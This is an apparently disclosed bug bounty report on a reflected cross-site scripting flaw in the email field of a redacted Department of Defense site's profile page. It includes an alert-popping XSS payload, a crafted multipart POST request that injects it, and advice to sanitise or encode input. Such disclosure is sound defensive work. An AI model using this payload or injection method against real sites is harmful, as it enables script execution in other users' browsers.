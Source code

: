 # Reflected XSS - in Email Input

## Report Details
- **Report ID**: 799839
- **URL**: https://hackerone.com/reports/799839
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-02-19T14:58:54.843Z
- **Disclosed**: 2022-03-18T19:01:11.951Z

## Reporter
- **Username**: ahmd_halabi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Target Url**
https://█████

**Summary:**
Hello, I found a reflected xss injection in the email input when updating user profile. Seems Email input is not sanitized and the special characters are not encoded.

**xss payload used**
"><img src=x onerror=alert(1);>

## Step-by-step Reproduction Instructions

1. Navigate to the target url `https://███/█████/` and login.
2. Then go to `My Profile`.
3. Set any password. In Email input, add the payload next to the email.
Example `your_email@gmail.com"><img src=x onerror=alert(1);>`
Then click save.

See this POST Request
```
POST /██████/edit_profile/ HTTP/1.1
Host: ████████

REQUEST HEADER HERE

-----------------------------191691572411478
Content-Disposition: form-data; name="action"

save_info
-----------------------------191691572411478
Content-Disposition: form-data; name="password[original]"

NEWPASSWORD
-----------------------------191691572411478
Content-Disposition: form-data; name="password[confirmed]"

NEWPASSWORD
-----------------------------191691572411478
Content-Disposition: form-data; name="email[original]"

███████"><img src=x onerror=alert(1);>
-----------------------------191691572411478--
```
And an Alert will pop up ;)
█████████

## Suggested Mitigation/Remediation Actions
Sanitize input fields or encode/escape special characters to avoid xss.

## Impact

An attacker can execute malicious javascript codes on the target application.

Hope this is not duplicate :|

## Attachments
No attachments
